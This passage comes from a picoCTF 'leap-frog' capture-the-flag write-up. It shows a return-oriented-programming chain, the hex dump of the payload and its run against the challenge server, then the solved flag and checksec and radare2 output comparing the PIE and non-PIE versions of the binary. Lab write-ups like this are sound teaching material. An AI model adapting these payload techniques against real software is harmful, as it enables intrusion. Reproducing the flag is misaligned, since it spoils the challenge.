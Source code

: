 ```console
[*] Loaded cached gadgets for 'rop'
[*] ROP:
    0x0000:        0x80485e6 leapA()
    0x0004:        0x8048ac0
    0x0008:        0x80485f3
    0x000c:       0xbabababa
    0x0010:        0x80485fd leap2(0xdeadbeef)
    0x0014:        0x8048409 <adjust @0x1c> pop ebx; ret
    0x0018:       0xdeadbeef arg0
    0x001c:        0x80485e6 leapA()
    0x0020:        0x80486b3 display_flag()
[*] EBP: 0x80480ef
[*] Payload:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  ef 80 04 08  e6 85 04 08  │AAAA│AAAA│····│····│
    00000020  c0 8a 04 08  f3 85 04 08  ba ba ba ba  fd 85 04 08  │····│····│····│····│
    00000030  09 84 04 08  ef be ad de  e6 85 04 08  b3 86 04 08  │····│····│····│····│
    00000040
[+] Starting remote process '/problems/leap-frog_3_5d6cea2f1cec97458549353ec1e7e158/rop' on 2019shell1.picoctf.com: pid 2657143
[+] Receiving all data: Done (50B)
[*] Stopped remote process 'rop' on 2019shell1.picoctf.com (pid 2657143)
picoCTF{h0p_r0p_t0p_y0uR_w4y_t0_v1ct0rY_0db32718}
```

---

[Edit]

As mentioned, earlier, the first binary published during this challenge had PIE enabled:
```console
root@kali:/media/sf_CTFs/pico/leap-frog# checksec.sh -f rop_original
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified     Fortifiable  FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   84 Symbols      No      0             6            rop_original
```

After a while, this file was (silently?) replaced with a PIE-disabled file:
```console
root@kali:/media/sf_CTFs/pico/leap-frog# checksec.sh -f rop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified     Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   82 Symbols      No      0             6            rop
```

Of course, the PIE binary had the `win` globals in a position independent location:
```console
root@kali:/media/sf_CTFs/pico/leap-frog# r2 rop_original
 -- r2 -- leading options since 2006
[0x000005a0]> is~win
044 ---------- 0x00002009 GLOBAL    OBJ    1 win1
045 ---------- 0x0000200b GLOBAL    OBJ    1 win3
066 ---------- 0x0000200a GLOBAL    OBJ    1 win2
```
